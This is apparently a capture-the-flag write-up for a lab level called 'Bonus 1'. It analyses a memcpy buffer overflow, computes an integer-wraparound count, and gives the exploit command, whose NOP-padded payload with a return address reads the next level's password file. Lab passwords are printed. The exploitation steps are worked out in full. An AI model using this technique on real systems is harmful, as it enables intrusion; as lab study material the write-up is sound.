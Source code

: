 # Bonus 1
*password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9*

## Analyze
```
$ scp -P 4242 bonus1@192.168.56.108:bonus1 binary/
```
```
char *dest[40];
...
memcpy(dest,*(undefined4 *)(**av + 8),nb * 4);
```

## Buffer overflow : memcpy expoit

- nb must be < 10
- compute offset : 8 * 2 + 40 = 56
- we want : (unsigned int)(nb * 4) = 60

unsigned int MAX = 4294967296

(unsigned int)-4294967296 = 0\
(unsigned int)(-1073741824 * 4) = 0\
(unsigned int)((-1073741824 + x / 4)* 4) = x

so for x = 60 :\
(unsigned int)((-1073741824 + 15)* 4) = 60\
(unsigned int)(-1073741809 * 4) = 60\
`nb  = -1073741809`

```
$ tmp/a.out
0xbffff83f
$ ./bonus1 -1073741809 $(python -c 'print "\x90" * 56 + "\x3f\xf8\xff\xbf"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
